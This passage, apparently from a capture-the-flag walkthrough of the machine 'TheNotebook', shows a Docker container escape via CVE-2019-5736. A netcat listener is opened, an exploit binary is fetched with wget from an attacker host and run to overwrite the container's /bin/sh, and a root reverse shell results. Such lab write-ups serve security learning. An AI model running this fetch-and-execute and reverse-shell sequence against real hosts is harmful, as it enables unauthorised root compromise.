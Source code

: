 We also set up nc listening on port 9652 on our local machine.

{% highlight bash %}
$ nc -lvnp 9652
listening on [any] 9652 ...
{% endhighlight %}

To use the POC we will log in twice with the noah rsa key. With one session we will download and execute the POC inside the container. This will overwrite /bin/sh within the container. With the second session we will execute /bin/sh within the container thus triggering our reverse shell.

### Step 1) From the first noah session download and execute the POC in the container.
{% highlight bash %}
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@a99f1db42470:/opt/webapp# cd /root
root@a99f1db42470:~# wget http://10.10.14.7/cve-2019-5736
--2021-08-07 01:20:20--  http://10.10.14.7/cve-2019-5736
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2236814 (2.1M) [application/octet-stream]
Saving to: ‘cve-2019-5736’

cve-2019-5736     100%[=============================>]   2.13M   333KB/s    in 6.4s    

2021-08-07 01:20:27 (339 KB/s) - ‘cve-2019-5736’ saved [2236814/2236814]

root@a99f1db42470:~# chmod +x cve-2019-5736 
root@a99f1db42470:~# ./cve-2019-5736 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 59
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000ad140}
{% endhighlight %}

### Step 2) From the second noah session use exec to execute /bin/sh within the container
{% highlight bash %}
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
{% endhighlight %}

We now see our nc listener receive a shell with root privileges.
{% highlight bash %}
$ nc -lvnp 9652
listening on [any] 9652 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.230] 39034
bash: cannot set terminal process group (6968): Inappropriate ioctl for device
bash: no job control in this shell
<894a9208c7b22d12c70a8b221338ac1c22fa8de382325d145# cd /root
cd /root
root@thenotebook:/root# ls
ls
cleanup.sh
docker-runc
reset.sh
root.txt
start.sh
root@thenotebook:/root# cat root.txt |wc
cat root.txt |wc
      1       1      33
root@thenotebook:/root# id         
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# 
{% endhighlight %}